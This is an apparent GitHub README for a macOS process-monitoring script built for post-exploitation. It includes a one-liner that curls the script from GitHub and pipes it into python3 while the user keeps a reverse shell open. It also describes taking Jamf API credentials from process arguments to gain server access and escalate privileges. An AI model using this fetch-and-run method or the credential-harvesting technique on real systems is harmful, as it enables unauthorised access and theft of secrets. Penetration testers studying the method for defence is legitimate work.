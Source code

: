 # pview
Monitor New Processes Created On MacOS, Similar to https://github.com/DominicBreuker/pspy, and https://objective-see.com/products/utilities.html#ProcessMonitor. No Dependencies Required.

## This is it
```
nohup bash -c "curl  https://raw.githubusercontent.com/latortuga71/pview/main/pview.py | python3 > /tmp/procs.txt" &
keep your reverse shell while its running.
```

## Why
Needed to monitor jamf scripts commandline arguments on mac recently, jamf api keys were being used in jamf scripts that ran peroidically. Using process monitor gathered curl args and got creds which allowed full access to jamf server. Allowing privesc. 
## BUT 
ProcessMonitor requires root access and pspy doesnt work on mac due to no /proc directory. also ps cannot really be rewritten as it wont show root processes. So this python script uses ps in a loop to gather processes since ps has SUID bit set by defalt and can see all processes.

## NOTE
it wont capture everything it will miss processes that end quickly due to the nature of how it loops.
